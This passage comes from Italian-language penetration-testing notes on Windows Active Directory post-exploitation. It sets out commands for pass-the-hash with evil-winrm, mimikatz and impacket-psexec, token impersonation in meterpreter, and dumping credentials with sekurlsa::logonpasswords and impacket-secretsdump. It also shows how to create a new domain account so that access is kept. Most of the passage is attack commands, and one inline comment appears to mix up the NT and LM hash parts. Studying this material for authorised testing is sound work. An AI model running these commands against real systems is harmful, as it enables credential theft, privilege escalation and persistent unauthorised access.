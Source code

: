 ```bash
sudo evil-winrm -i <IP> -u administrator -H <ADMIN_HASH>
```

---

## Token impersonation

Abbiamo già visto questo attacco nella fase del *lateral movement*. 

Possiamo ottenere un *privilege escalation* all’interno della sessione meterpreter, dopo aver fatto “load incognito”

```bash
impersonate_token <DOMAIN>\Administrator
```

E possiamo creare un nuovo account con privilegi di amministratore, in modo da mantenere l’accesso

```bash
net user /add <NEW_USER_NAME> <PASSWORD> /domain
```

Possiamo avere conferma dell’avvenuta creazione mediante

```bash
impacket-secretsdump <DOMAIN>/<NEW_USER_NAME>:<PASSWORD>@<IP>
```

---

## Mimikatz

Ottenuta una shell in una macchina target, con utente con privilegi, possiamo caricare mimikatz.exe al fine di estrarre l’hash dell’amministratore e fare quindi un pass the hash con lo stesso mimikatz o con psexec

```bash
mimikatz.exe

privilege::debug

sekurlsa::logonpasswords
```

Se otteniamo l’hash NTLM che ci interessa, possiamo procedere col pass-the-hash

```bash
sekurlsa::pth /user:Administrator /domain:<DOMAIN> /ntlm:<HASH>
```

oppure

```bash
impacket-psexec -hashes 00000000000000000000000000000000:<HASH> administrator@<IP>   # Dove gli “0” indicano l’NT nullo, e l’hash l’LM 
```

---
